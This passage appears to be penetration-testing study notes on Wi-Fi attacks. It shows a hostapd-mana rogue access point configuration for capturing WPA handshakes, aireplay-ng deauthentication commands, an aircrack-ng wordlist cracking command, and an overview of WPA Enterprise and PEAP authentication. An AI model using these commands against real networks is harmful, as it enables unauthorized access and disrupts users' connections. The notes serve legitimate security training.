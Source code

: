 | Options | Description | 
|--|--|
| `hw_mode=g` | 2.4GHz
| `hw_mode=a` | 5GHz
| `ieee80211n` |change from default `802.11b` to `802.11n`
| `wpa=1` |WPA only
| `wpa=2` |WPA2 only
| `wpa=3` |WPA1 and WPA2 support
| `wpa_key_mgmt=WPA-PSK` | Setting PSK Authentication  
| `wpa_passphrase=ANYTHING` | Passphrase irrelevant when trying to capture handshake only. 
| `wpa_pairwise=TKIP CCMP` | Enable TKIP/CCMP Encryption for WPA1     
| `rsn_pairwise=TKIP CCMP` | Enable TKIP/CCMP Encryption for WPA2     
| `mana_wpaout=/outputfile.hccapx` | Save captured handshaked to file.  

2.Start the rogue AP  
`hostapd-mana AP-Name.conf` 

Client will connect. (de-auth) and ensure stronger signal.  
To deauth - Use another interface to execute aireplay-ng to deauth!   
`airmon-ng start wlan1 3` = Set wlan1 interface on monitor mode on channel 3
`aireplay-ng -0 0 -a <AP-MAC> wlan1mon`  

We can capture the handshake.  

3. Crack Handshake with Hashcat or aircrack-ng  
`aircrack-ng outfile.hccapx -e AP-Name -w /wordlist.txt`  

## WPA Enterprise Attacks 
User authentication against a central database.  #

WPA Enterprise uses Extensible Authentication Protocol (EAP) allowing for different authentication schemes or methods.  

Authentication with RADIUS 
- EAP-TLS Requires a certificate  
- EAP-TTLS - Not necessarily using a client certificate.  (creates a tunnel and then using CHAP or PAP to exchange credentials)  
- PEAP Differs on hown data is exchanged in the tunnel.  

### PEAP 
Protection Extensible Authentication Protocol (PEAP)  

- Beacon Frame (WPA or WPA2 in use and check ciphers)
- Association frame - Auth Key Manmagement to suggest Enterprise 
- Several EAP frame to handle authentication. Can identify `identity` followed by domain\username
- After identitiy provided, next frame shows if PEAP or TLS etc.  

